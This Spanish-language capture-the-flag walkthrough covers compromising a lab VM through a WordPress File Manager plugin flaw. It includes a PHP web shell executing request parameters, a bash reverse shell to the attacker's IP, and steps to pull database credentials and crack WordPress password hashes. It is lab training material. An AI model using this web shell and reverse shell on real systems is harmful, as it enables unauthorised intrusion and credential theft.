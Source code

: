 #WordPress #RCE #ReverseShell #MySQL #BruteForce 
[[192.168.1.19 (Atacante)]]

--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios y en usuario `hagrid98` encontramos el primer horocrux(Flag)

Para acceder a la información del wordpres buscamos en la ruta `cat /etc/apache2/sites-enabled/wordpress.conf`, y este nos dirá en donde se encuentra alojado el wordpress, que es en:
`/usr/share/wordpress`

En el `wp-config.php` no encontramos ninguna contraseña pero vemos que este esta llamando a `/etc/wordpress/config-default.php` así que lo leemos para ver que contiene

Y encontramos las credenciales del usuario root de la base de datos del wordpress `root::mySecr3tPass`

Nos conectamos en la base de datos `mysql -uroot -p` y cuando nos pida la contraseña la introducimos, listaremos las bases de datos:
`show databases;` vemos que hay una llamada wordpress, navegamos a ella
`use wordpress;` vemos las tablas que contiene
`show tables;` vemos la tabla `wp_users` así que listamos su contenido
`describe wp_users;` y seleccionaremos todo los que hay dentro de esta tabla
`select * from wp_users;` nos mostrara los usuarios con sus contraseñas las cuales se pueden crakear por fuerza bruta, nos la copiamos en un fichero llamado `hash` para intentar crackearlo con fuerza bruta.

Usaremos la herramienta [[JOHN THE RIPPER]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash `






